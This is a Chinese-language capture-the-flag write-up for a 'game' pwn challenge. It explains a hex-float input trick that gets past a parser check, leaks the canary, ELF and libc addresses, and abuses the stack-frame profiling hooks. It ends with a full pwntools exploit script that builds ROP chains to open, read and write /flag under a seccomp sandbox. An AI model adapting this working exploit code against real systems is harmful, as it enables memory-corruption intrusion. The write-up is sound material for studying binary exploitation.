此题为赛后复现

# 函数分析

检查保护，全开



逻辑比较复杂，尤其是有两个有意思的函数，我们一帧一帧分析

## 主函数main



sandbox沙箱如下：



允许orw、close、exit

## 主逻辑函数



关键点在`get_choice`​上，`sub_1F8D`函数中有栈溢出：



所以核心目的就是要通过`get_choice`​得到返回值为1，触发`sub_1F8D`函数

这题的难点很大一部分在`get_choice`上，接下来分析这个函数（及其中的嵌套函数）

## get_choice及其嵌套函数

### get_choice



获得用户输入（长度 <= 8），通过`sub_1776`处理之后得到的值返回

### sub_1776



参数a2即是上面说的

注意到用`strchr`​函数匹配了一个`'x'`​字符，猜测是16进制表示，但是不被允许，所以如果用16进制表示得用大写的`'X'`

v2为输入的字符串通过`strtod`转化的double型，然后用一个神奇数字（9.223372036854776e18）判断：

1. 如果v2 > 9.223372036854776e18：

   v5 = v2 与 9.223372036854776e18 差值，转化成int、unsigned int之后取相反数
2. else

   v5 = v2 转化成int、unsigned int

v7 为 v5 的十进制形式的字符串

然后给出两个判断`sub_1500`​、`sub_1612`函数

### sub_1500



函数的作用是把原始的输入和转化后的v7中每个字节取出，用其ASCII值作为索引，要求两个字符中的不能出现互相相同的字符

e.g.

s: 0X77C，v7: 1916，虽然两者中会有自重合，但是不影响，能够通过，返回1

s: 0x7， v7: 7，两个字符都会有字符`7`，重合，函数直接退出，返回0

### sub_1612



将我们的原始输入 s 通过`__isoc23_strtoull`​转化为 v6，判断：（注意下面的 a2 参数是`sub_1776` 说的v5）

1. v6 == a2参数：

   返回1
2. else：

   返回0

所以本质在做一件事：判断原始输入转化成unsigned long long之后的值是否与前文转化的v5相等

综合 `sub_1500`​ 和 `sub_1612` 的要求由此要求：

原始输入s对应的必须是小于 9.223372036854776e18 的整数，输入的字符形式必须和其十进制表示包含的字符不同，这里思路是选16进制

但是由于想让`sub_1776`​返回1（也就是原始输入对应的值必须是1），但是0x1和1是没法通过`sub_1500`​检查的，所以必须采取浮点数的形式，用16进制的浮点数：`0X4p-2`即可绕过检测

### _cyg_profile_func_enter

这道题的程序中，有不少函数在执行时会调用一个很神奇的小函数，给这个函数的传参的rdi都是调用者本身的地址



for example，`A -> call __cyg_profile_func_enter`​，其`rdi`为A的addr

实现的效果是栈帧如下图：



### _cyg_profile_func_exit

这是函数返回时的检查函数，与`_cyg_profile_func_enter`相对应，不多赘述，但是可以看到函数在正常返回时会调用如下操作：



清空了寄存器，，，

‍

## sub_1F8D 漏洞函数分析



用上面分析过的get_choice函数获取数值，分别作为写入的size（最大为0xe8）、读出的size（最大为0x30）

注意：这里的写入函数`_read`​和读出函数`sub_142A`都会在size范围内循环写入、读出，所以size一定控制为想要的值，避免过多读写

其中`sub_142A`有必要再解释一下：



其中的`sub_13A5`是一个检查函数，会对输出的内容进行检查，最里层的检查逻辑如下：



分析逻辑可知，如果输出内容为一个第六个字节（用户态虚拟地址的最高字节）开头的地址，则输出 unk_3270 中的数据（全为0），否则输出该数据

也就是说，没法通过`sub_142A`这个函数泄露libc和栈地址，但是canary、elf地址是可以泄露的，最大0x30的输出大小可以覆盖到canary，因此可以直接泄露canary

结合之前的分析，`sub_1F8D`明显的栈溢出，直接开始构造利用思路

‍

# 利用思路

第一轮先拿到canary和elf基址，然后第二轮可以开始栈溢出，但是，elf中提供的gadgets根本不够，所以需要泄露libc

难点在于2个：

1. 之前分析的`sub_13A5`函数把泄露时libc和栈相关地址的泄露给卡掉了
2. 之前分析的`_cyg_profile_func_exit`​函数把`sub_1F8D`函数返回时的寄存器清空了，没有可以利用的现成寄存器

着手分析这两个难题

先看第一个问题，所以调用函数时一定要直接调用write，但是由于控制寄存器困难，所以可以考虑通过rbp控制参数来调用write，如下图：



只要能过够通过控制一块内存区域并把rbp设置好，就可以任意地址write，但是同时这里也要设置好内容绕过后续`_cyg_profile_func_exit`的检查

再看第二个问题，由于每个版本的libc实现不一致，我一般会把一些函数看成一个 “黑盒”， 通过对直接调用一些libc函数来尝试往特定的寄存器里写入内容

经过不懈的尝试，终于试出一条链（鬼知道试了多久🤪）：



直接通过plt调用了`printf`​、`puts`​、`read`​、`printf`函数之后，出现了神奇的一幕（挠头）：rdi为栈地址，且其中存储了栈地址

调用puts输出后取得栈地址，然后通过第一个问题的解决方法，将rbp设置在可控的栈上，泄露出libc之后再通过溢出orw

‍

# exp

还有一些细节不赘述，调试即可

```python
#!/usr/bin/env python3
from pwn import *

filename = "game_patched"
libcname = "/home/ret2z/.config/cpwn/pkgs/2.39-0ubuntu8.7/amd64/libc6_2.39-0ubuntu8.7_amd64/usr/lib/x86_64-linux-gnu/libc.so.6"
host = "127.0.0.1"
port = 1337
container_id = ""
proc_name = ""
context.terminal = ['tmux', 'neww']
context.log_level = 'debug'
elf = context.binary = ELF(filename)
if libcname:
    libc = ELF(libcname)
gs = '''
b *$rebase(0x203D)
# b *$rebase(0x1483)
# b *$rebase(0x1FDD)
b *$rebase(0x2113)
set debug-file-directory /home/ret2z/.config/cpwn/pkgs/2.39-0ubuntu8.7/amd64/libc6-dbg_2.39-0ubuntu8.7_amd64/usr/lib/debug
set directories /home/ret2z/.config/cpwn/pkgs/2.39-0ubuntu8.7/amd64/glibc-source_2.39-0ubuntu8.7_all/usr/src/glibc/glibc-2.39
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript = gs)
    elif args.REMOTE:
        return remote(host, port)
    elif args.DOCKER:
        import docker
        from os import path
        io = remote(host, port)
        client = docker.from_env()
        container = client.containers.get(container_id=container_id)
        processes_info = container.top()
        titles = processes_info['Titles']
        processes = [dict(zip(titles, proc)) for proc in processes_info['Processes']]
        target_proc = []
        for proc in processes:
            cmd = proc.get('CMD', '')
            exe_path = cmd.split()[0] if cmd else ''
            exe_name = path.basename(exe_path)
            if exe_name == proc_name:
                target_proc.append(proc)
        idx = 0
        if len(target_proc) > 1:
            for i, v in enumerate(target_proc):
                print(f"{i} => {v}")
            idx = int(input(f"Which one:"))
        import tempfile
        with tempfile.NamedTemporaryFile(prefix = 'cpwn-gdbscript-', delete=False, suffix = '.gdb', mode = 'w') as tmp:
            tmp.write(f'shell rm {tmp.name}\n{gs}')
        print(tmp.name)
        run_in_new_terminal(["sudo", "gdb", "-p", target_proc[idx]['PID'], "-x", tmp.name])
        return io
    else:
        return process(elf.path)
def dbg(a=''):
    gdb.attach(io, gdbscript=a)
    pause()
def p():
    if args.GDB:
        pause()
    else:
        sleep(0.2)
# <------- lambda -------> 
s   = lambda a :                    io.send(a)
sl  = lambda a :                    io.sendline(a)
sa  = lambda a, b:                  io.sendafter(a,b)
sla = lambda a, b:                  io.sendlineafter(a,b)
til = lambda a:                     io.recvuntil(a)
ls  = lambda a, b:                  success("\033[31m" + a + " ----> " + b + "\033[0m")
def read_sz(sz):
    sla(b'Draft size: ', sz)
def send(payload):
    sa(b'Write your draft:', payload)
def write_sz(sz):
    sla(b'Preview bytes: ', sz)

io = start()

sla(b'> ', b'0X4p-2')
read_sz(b'0X3p3')   # 24
send(b'a'*24)
write_sz(b'0X6p3')  # 48
til(b'a'*24)
canary = u64(io.recv(8))
ls("canary", hex(canary))
til(b'\x00'*8)
elf.address = u64(io.recv(8)) - 0x21bd
ls("elf", hex(elf.address))


rbp = elf.address + 0x1233
stdout = elf.address + 0x5020
_write = elf.address + 0x14AD
get_choice = elf.address + 0x1B6E
enter = elf.address + 0x12D5
main_logic = elf.address + 0x2166
ret = rbp + 1

sla(b'> ', b'0X4p-2')
read_sz(b'0X1Cp3')  # 0xE0
payload = b'a'*24 + p64(canary) + p64(0)
payload += p64(elf.plt.printf) + p64(elf.plt.puts) + p64(elf.plt.read) + p64(elf.plt.printf) + p64(elf.plt.puts)
payload += p64(main_logic)
send(payload.ljust(0xe0, b'a'))
write_sz(b'0X1p3')  # 8
til(b'draft.\n')
io.recvline()
stack = u64(io.recv(6).ljust(8, b'\x00')) + 0x170   # the rsp while puts will return
ls("stack", hex(stack))


sla(b'> ', b'0X4p-2')
read_sz(b'0X1Cp3')  # 0xE0
payload = flat({
    0x0: b'a'*0x8,
    0x18: p64(canary) + p64(stack + 0xd0) + p64(_write),
    0xa0: p64(0x8),
    0xa8: p64(0),
    0xb0: p64(stack+0xe8),
    0xb8: p64(0x8),
    0xc0: p64(0),
    0xc8: p64(canary),
    0xd0: p64(elf.bss()),               # fake rbp
    0xd8: p64(main_logic+1)             # fake retaddr, main_logic + 1 to make stack balancing
}, filler=b'\x00')

send(payload.ljust(0xe0, b'a'))
write_sz(b'0X7p3')
til(b'parchment.\n')
libc.address = u64(io.recv(8)) - 0x2a28b
ls("libc", hex(libc.address)) 


'''
0x000000000010f78b: pop rdi; ret;
0x0000000000110a7d: pop rsi; ret;
0x00000000000dd237: pop rax; ret;
0x00000000000584d9: pop r13; ret;
0x00000000000b0153: mov rdx, rbx; pop rbx; pop r12; pop rbp; ret;
0x00000000000586e4: pop rbx; ret;
0x0000000000098fb6: syscall; ret;
'''
rdi = libc.address + 0x000000000010f78b
rsi = libc.address + 0x0000000000110a7d
rbx = libc.address + 0x00000000000586e4
rax = libc.address + 0x00000000000dd237
rdx_rbx_r12_rbp = libc.address + 0x00000000000b0153
syscall = libc.address + 0x0000000000098fb6

sla(b'> ', b'0X4p-2')
read_sz(b'0X1Cp3')  # 0xE0
payload = b'a'*24 + p64(canary) + p64(0)
payload += flat(rdi, 0, rsi, stack, rbx, 0x1000, rdx_rbx_r12_rbp, 0,0,0, rax, 0, syscall)
send(payload.ljust(0xe0, b'a'))
write_sz(b'0X7p3')


p()
payload = b'/flag'.ljust(0x130, b'\x00')
payload += flat(
    rdi, stack, rsi, 0, rax, 2, syscall,
    rdi, 3, rsi, stack - 0x800, rbx, 0x30, rdx_rbx_r12_rbp, 0, 0, 0, rax, 0, syscall,
    rdi, 1, rsi, stack - 0x800, rbx, 0x30, rdx_rbx_r12_rbp, 0, 0, 0, rax, 1, syscall
)
s(payload)

io.interactive()
```

‍

# 总结

题目绕过很恶心，赛场上是卡在了第一步进制转化的绕过上
后续可以进一步测试一下 `printf` -> `puts` -> `read` -> `printf` 的调用链是怎么做到把栈地址留在rdi寄存器中的
